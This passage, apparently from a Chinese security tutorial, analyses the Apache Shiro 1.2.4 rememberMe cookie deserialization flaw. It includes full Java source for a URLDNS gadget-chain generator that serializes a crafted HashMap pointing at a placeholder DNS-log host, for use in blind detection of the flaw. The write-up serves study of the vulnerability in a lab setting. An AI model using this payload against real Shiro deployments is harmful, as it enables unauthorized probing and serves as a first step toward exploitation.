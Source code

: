 感兴趣的去org.apache.shiro.web.mgt.CookieRememberMeManager分析。

给一个栈图，在OncePerRequestFilter的doFilter处理请求，在CookieRemberMeManager生成cookie和处理cookie。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240805154744315.png)

着重看下利用

## URLDNS

URLDNS不需要依赖，直接盲打以探测漏洞。

另外起一个项目模拟攻击环境，下一个shiro1.2.4的库，pom里自行添加dependency

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240805161830522.png)

URLDNS生成字节码：

```java
import java.io.IOException;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://yourdnslog");
//        url.hashCode();
        HashMap<Object, Object> map = new HashMap<>();
        Field hashCode = url.getClass().getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,0);
        map.put(url,"godown");
        hashCode.set(url,-1);
        serialize(map);
//        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}

```
